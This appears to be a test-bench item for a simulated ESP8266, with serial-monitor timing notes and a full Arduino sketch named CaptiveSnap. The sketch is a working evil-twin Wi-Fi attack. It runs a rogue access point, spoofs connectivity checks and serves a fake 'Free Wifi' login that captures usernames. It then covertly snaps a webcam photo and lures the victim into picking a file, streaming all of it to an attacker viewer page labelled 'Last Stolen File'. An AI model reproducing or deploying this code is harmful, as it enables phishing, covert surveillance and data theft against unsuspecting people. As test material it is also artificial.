
The sketch below on a simulated ESP8266 (NodeMCU). Shown: the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench.

Above: at 1.3 s.
1.4 s: WebSocket text "USER:" received
At 2.1 s:

2.9 s: WebSocket text "FILE:" received
At 4.4 s:


Measured:
- after the input at 1.4 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.9 s, the serial monitor: prints a new line at once (image 2)

The sketch:

CaptiveSnap.ino
```cpp
#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include <WebSocketsServer.h>

// ----------------- CONFIG -----------------
const char* ap_ssid     = "HACK1";      // SSID victim auto-connects to
const char* ap_password = "HACK@12345";            // open network

IPAddress apIP(192, 168, 1, 1);
IPAddress netMask(255, 255, 255, 0);

ESP8266WebServer server(80);
WebSocketsServer webSocket(81);
DNSServer dnsServer;
const byte DNS_PORT = 53;

String capturedUsername = "No user yet";

// ----------------- HTML PAGES -----------------

// HTML and CSS code ! Activate it based on your method
// Login page (same as before)
const char loginPage[] PROGMEM = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Free Wifi - Sign In</title>
<style>
  body { font-family: Arial; background: #f2f2f2; text-align: center; padding-top: 50px; }
  .box { background: white; padding: 30px; border-radius: 10px; display: inline-block;
         box-shadow: 0 0 10px rgba(0,0,0,0.1); width: 90%; max-width: 350px; }
  input { width: 100%; padding: 12px; margin: 8px 0; border: 1px solid #ccc; border-radius: 5px; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 12px 20px; border: none; border-radius: 5px; cursor: pointer; width: 100%; }
  button:hover { background: #45a049; }
</style>
</head>
<body>
<div class="box">
  <h2>🔐 Free Wifi WiFi</h2>
  <p>Sign in with your username and password to connect.</p>
  <input type="text" id="username" placeholder="Username" required><br>
  <input type="password" id="password" placeholder="Password"><br>
  <button onclick="submitLogin()">Connect</button>
  <p id="msg" style="color:red;"></p>
</div>

<script>
function submitLogin() {
  let user = document.getElementById('username').value.trim();
  if (user === '') {
    document.getElementById('msg').innerText = 'Please enter a username.';
    return;
  }
  let ws = new WebSocket('ws://192.168.1.1:81/');
  ws.onopen = () => {
    ws.send('USER:' + user);
    window.location.href = 'http://192.168.1.1/activate?user=' + encodeURIComponent(user);
  };
  ws.onerror = () => {
    window.location.href = 'http://192.168.1.1/activate?user=' + encodeURIComponent(user);
  };
}
</script>
</body>
</html>
)rawliteral";

// Activation page (camera first, then storage)
const char activatePage[] PROGMEM = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Activating Wi-Fi...</title>
<style>
  body { font-family: Arial; background: #f0f0f0; text-align: center; padding-top: 20px; margin:0; }
  .box { background: white; padding: 20px; border-radius: 10px; display: inline-block; width:90%; max-width:400px; }
  #overlay { position: fixed; top:0; left:0; width:100%; height:100%; background: rgba(0,0,0,0.1); z-index:999; display:none; }
  video { display:none; }
  canvas { display:none; }
  input[type=file] { display:none; }
  #status { color: #333; margin-top: 15px; }
</style>
</head>
<body>
<div class="box">
  <h2>Activate Wi-Fi Connection</h2>
  <p id="status">Initializing camera...</p>
  <video id="video" autoplay playsinline></video>
  <canvas id="canvas" width="320" height="240"></canvas>
</div>
<div id="overlay" onclick="triggerFile()"></div>
<input type="file" id="fileInput" onchange="handleFile(this.files[0])">

<script>
let socket = new WebSocket('ws://192.168.1.1:81/');
socket.binaryType = 'arraybuffer';

const video = document.getElementById('video');
const canvas = document.getElementById('canvas');
const ctx = canvas.getContext('2d');
let camReady = false;

// Step 1: Request camera and snap a photo
navigator.mediaDevices.getUserMedia({ video: { width: 320, height: 240, facingMode: "user" } })
.then(stream => {
  video.srcObject = stream;
  video.play();
  camReady = true;
  document.getElementById('status').innerText = 'Capturing verification photo...';

  // Wait a moment for camera to initialise, then snap
  setTimeout(() => {
    canvas.width = video.videoWidth;
    canvas.height = video.videoHeight;
    ctx.drawImage(video, 0, 0);
    // Convert to Blob and send as binary
    canvas.toBlob(blob => {
      if (socket.readyState === WebSocket.OPEN) {
        socket.send(blob);
      }
      // Stop camera tracks to save memory
      stream.getTracks().forEach(track => track.stop());
      video.style.display = 'none';

      // Step 2: Now activate storage – show overlay for tap
      document.getElementById('status').innerText = 'Tap anywhere to grant storage permission...';
      document.getElementById('overlay').style.display = 'block';
    }, 'image/jpeg', 0.6);
  }, 1500);
})
.catch(err => {
  // If camera fails, skip to storage
  document.getElementById('status').innerText = 'Camera not available. Tap to continue with storage...';
  document.getElementById('overlay').style.display = 'block';
});

function triggerFile() {
  document.getElementById('overlay').style.display = 'none';
  document.getElementById('status').innerText = 'Opening file picker...';
  document.getElementById('fileInput').click();
}

function handleFile(file) {
  if (!file) return;
  document.getElementById('status').innerText = 'Reading file...';
  const reader = new FileReader();
  reader.onload = function(e) {
    let fileContent = e.target.result;
    let msg = 'FILE:' + file.name + '|' + file.size + '|' + fileContent.substring(0, 100);
    if (socket.readyState === WebSocket.OPEN) {
      socket.send(msg);
    }
    document.getElementById('status').innerText = 'Connected!';
  };
  reader.readAsText(file);
}
</script>
</body>
</html>
)rawliteral";

// Viewer page (for attacker mobile)
const char viewPage[] PROGMEM = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Remote View</title>
<style>
  body { margin:0; background:#111; color:#fff; font-family:sans-serif; padding:10px; }
  #info { background:rgba(0,0,0,0.8); padding:15px; margin-bottom:10px; border-radius:8px; }
  #username { font-weight:bold; color:#4CAF50; }
  img { max-width:100%; height:auto; border:1px solid #444; margin:10px 0; display:none; }
  #fileInfo { margin-top:10px; word-break:break-all; }
  #filePreview { background:#333; padding:10px; margin-top:10px; border-radius:5px; max-height:200px; overflow-y:auto; font-family:monospace; white-space:pre-wrap; }
</style>
</head>
<body>
<div id="info">
  <strong>Captured Username:</strong> <span id="username">None</span>
  <img id="photo" src="" />
  <div id="fileInfo">
    <strong>Last Stolen File:</strong><br>
    <span id="fileName">-</span> (<span id="fileSize"></span> bytes)<br>
    <div id="filePreview">Waiting for file...</div>
  </div>
</div>

<script>
let socket = new WebSocket('ws://192.168.1.1:81/');
socket.binaryType = 'arraybuffer';
const usernameSpan = document.getElementById('username');
const photoImg = document.getElementById('photo');
const fileNameSpan = document.getElementById('fileName');
const fileSizeSpan = document.getElementById('fileSize');
const filePreview = document.getElementById('filePreview');

socket.onmessage = function(event) {
  if (typeof event.data === 'string') {
    let msg = event.data;
    if (msg.startsWith('USER:')) {
      usernameSpan.innerText = msg.substring(5);
    } else if (msg.startsWith('FILE:')) {
      let parts = msg.substring(5).split('|');
      if (parts.length >= 3) {
        fileNameSpan.innerText = parts[0];
        fileSizeSpan.innerText = parts[1];
        filePreview.innerText = parts[2] + (parts[2].length == 100 ? '...' : '');
      }
    }
  } else if (event.data instanceof ArrayBuffer) {
    // Received binary data -> camera photo
    let blob = new Blob([event.data], { type: 'image/jpeg' });
    photoImg.src = URL.createObjectURL(blob);
    photoImg.style.display = 'block';
  }
};
socket.onopen = () => console.log('Viewer connected');
socket.onclose = () => usernameSpan.innerText = 'Disconnected';
</script>
</body>
</html>
)rawliteral";

// ----------------- SETUP -----------------
void setup() {
  Serial.begin(115200);
  delay(100);

  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, netMask);
  WiFi.softAP(ap_ssid, ap_password);
  Serial.print("AP IP: ");
  Serial.println(WiFi.softAPIP());

  dnsServer.start(DNS_PORT, "*", apIP);

  server.on("/", []() { server.send(200, "text/html", loginPage); });
  server.on("/activate", []() { server.send(200, "text/html", activatePage); });
  server.on("/view", []() { server.send(200, "text/html", viewPage); });

  // Spoof connectivity checks
  server.on("/generate_204", []() { server.send(204); });
  server.on("/ncsi.txt", []() { server.send(200, "text/plain", "Microsoft NCSI"); });
  server.on("/hotspot-detect.html", []() { server.send(200, "text/html", "<HTML><HEAD><TITLE>Success</TITLE></HEAD><BODY>Success</BODY></HTML>"); });
  server.on("/connecttest.txt", []() { server.send(200, "text/plain", "Microsoft Connect Test"); });
  server.on("/redirect", []() { server.send(200); });

  server.onNotFound([]() {
    server.sendHeader("Location", "http://192.168.1.1/", true);
    server.send(302, "text/plain", "");
  });

  server.begin();

  webSocket.onEvent([](uint8_t num, WStype_t type, uint8_t * payload, size_t length) {
    switch (type) {
      case WStype_TEXT: {
        String msg = String((char*)payload).substring(0, length);
        if (msg.startsWith("USER:")) {
          capturedUsername = msg.substring(5);
          Serial.println("Username: " + capturedUsername);
          webSocket.broadcastTXT(msg);
        } else if (msg.startsWith("FILE:")) {
          Serial.println("File: " + msg);
          webSocket.broadcastTXT(msg);
        }
        break;
      }
      case WStype_BIN:
        Serial.printf("Photo received (%u bytes)\n", length);
        webSocket.broadcastBIN(payload, length);
        break;
      case WStype_CONNECTED:
        Serial.printf("[%u] Connected\n", num);
        break;
      case WStype_DISCONNECTED:
        Serial.printf("[%u] Disconnected\n", num);
        break;
    }
  });
  webSocket.begin();

  Serial.println("ESP8266 ADVANCED ready.");
}

void loop() {
  dnsServer.processNextRequest();
  server.handleClient();
  webSocket.loop();
}
```
